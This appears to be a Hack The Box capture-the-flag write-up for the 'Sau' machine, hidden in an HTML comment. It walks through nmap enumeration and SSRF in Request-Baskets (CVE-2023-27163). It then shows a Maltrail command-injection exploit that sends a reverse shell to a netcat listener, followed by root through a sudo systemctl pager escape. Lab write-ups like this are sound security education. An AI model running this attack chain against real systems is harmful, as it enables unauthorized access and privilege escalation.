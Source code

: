 ```yaml
---
title: HTB - Sau
date: 2023-12-04
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, cve-2023-27163, ssrf, command-injection, request-baskets, maltrail]
img_path: /assets/sau/
published: true
---
```


![room_banner](sau_banner.png)

## Overview

|:-:|:-:|
|Machine|[Sau](https://app.hackthebox.com/machines/551)|
|Rank|Easy|
|Time|1h26m|
|Focus|SSRF, command-injection|

> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

<!-- 
## 1. Information Gathering

```shell
# TCP SYN all ports scanning
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 -p- sau

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
55555/tcp open  unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 04 Dec 2023 13:59:49 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 04 Dec 2023 13:59:22 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 04 Dec 2023 13:59:22 GMT
|_    Content-Length: 0

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Initial Foothold

![](homepage.png)

![](request-baskets_version.png)

> Source: [Request-Baskets 1.2.1 Server-Side Request Forgery (CVE-2023–27163)](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7)
> 
> _**Request Baskets** is a web service designed to capture arbitrary HTTP requests and facilitate their inspection through either a RESTful API or a straightforward web user interface._
>
> *[CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) represents a critical **Server-Side Request Forgery (SSRF) vulnerability** that was identified in Request-Baskets, affecting all versions up to and including 1.2.1. This particular vulnerability grants malicious actors the ability to gain unauthorized access to network resources and sensitive information by exploiting the `/api/baskets/{name}` component through carefully crafted API requests.*
>
> *As previously mentioned, Request-Baskets operates as a web application designed to collect and log incoming HTTP requests directed to specific endpoints known as “baskets.” During the creation of these baskets, users have the flexibility to specify alternative servers to which these requests should be forwarded. **The critical issue here lies in the fact that users can inadvertently specify services they shouldn’t have access to, including those typically restricted within a network environment**.*
>
> *For example, consider a scenario where the server hosts Request-Baskets on port 55555 and simultaneously runs a Flask web server on port 8000. The Flask server, however, is configured to exclusively interact with the localhost. In this context, an attacker can exploit the SSRF vulnerability by creating a basket that forwards requests to http://localhost:8000, effectively bypassing the previous network restrictions and gaining access to the Flask web server, which should have been restricted to local access only.*

> [PoC of SSRF on Request-Baskets (CVE-2023-27163)](https://github.com/entr0pie/CVE-2023-27163/tree/main)

```shell
# enumerating internal webserver
 ./CVE-2023-27163.sh http://sau:55555 http://localhost:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "kwpjxa" proxy basket...
> Basket created!
> Accessing http://sau:55555/kwpjxa now makes the server request to http://localhost:80.
> Authorization: TOXDrjpjR4bfvkkSGah34Nvu3r8L7pv3mV3ECGG_IacT
```

![](internal_webserver.png)

> [Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) - Command Injection Vulnerability

```shell
# running maltrail PoC through request-baskets
python3 exploit.py 10.10.14.4 4444 http://sau:55555/kwpjxa
Running exploit on http://sau:55555/kwpjxa/login
```

```shell
# catching a shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.224] 33162
$
```

```shell
# user flag
puma@sau:~$ cat ~/user.txt
cat ~/user.txt
```

## 3. Privilege Escalation

```shell
# checking perms
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

> `sudo systemctl status [service]` [privilege escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/#spawn-shell-in-the-pager).

```shell
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh
!sshh!sh
# cat /root/root.txt
cat /root/root.txt
```
 -->

<figure>
    <img src="sau_pwned.png"
    alt="Machine pwned" >
</figure>